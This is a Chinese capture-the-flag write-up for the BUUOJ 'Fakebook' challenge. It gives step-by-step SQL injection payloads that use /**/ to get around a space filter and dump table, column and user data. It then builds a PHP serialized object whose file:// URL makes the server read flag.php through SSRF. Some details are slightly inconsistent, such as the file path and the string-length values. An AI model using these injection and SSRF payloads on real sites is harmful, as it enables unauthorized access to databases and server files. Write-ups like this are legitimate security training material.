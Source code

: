 ## 0x01 Fakebook

本题考点为SQL注入和SSRF，首先随意注册一个账户，进行登录后发现网址为

```
http://125afc2e-8d0c-4333-9d75-14d7fa2d63f1.node3.buuoj.cn/view.php?no=1
```

推断no=1为可注入点

进行注入后发现屏蔽空格，将空格换为`/**/`进行绕过屏蔽字，构造payload完成SQL注入获取内部的信息

Payload：

```
no=1 order by 4#  //发现order by 5时出现报错，推断有四列
no=0/**/union/**/select 1,2,3,4#  //通过报错页面得知2有回显
no=0/**/union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()#
                //爆表名发现有一个users表
no=0/**/union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'#
                //爆字段名发现username、passwd和data，username和passwd没有发现flag，data中发现一个反序列化对象
no=0/**/union/**/select 1,group_concat(data),3,4 from users#  //爆出data的值
```

发现data值为

```
O:8:"UserInfo":3:{s:4:"name";s:3:"123";s:3:"age";i:1;s:4:"blog";s:9:"1.1.1.com";}
```

同时使用dirsearch扫描目录发现`user.php.bak`![](/assets/捕鱼.png)下载`user.php.bak`发现定义可反序列化类UserInfo

```
class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

发现\`function get函数中存在exec执行函数，但安全，因而将重点转向于curl\_getinfo\(\)函数。

发现可以采用file://伪协议进行文件读取，并且已知flag.php和view.php均位于/var/www/html/目录下，故构造payload：

```
$a = new UserInfo('1',2,'file://var/www/html/flag.php');
```

获取反序列化字符串，得到

```
O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:2;s:4:"blog";s:28:"file://var/www/html/flag.php";}
```

将反序列化字符串放入url中构造payload：

```
no=0/**/union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:2;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'#
```



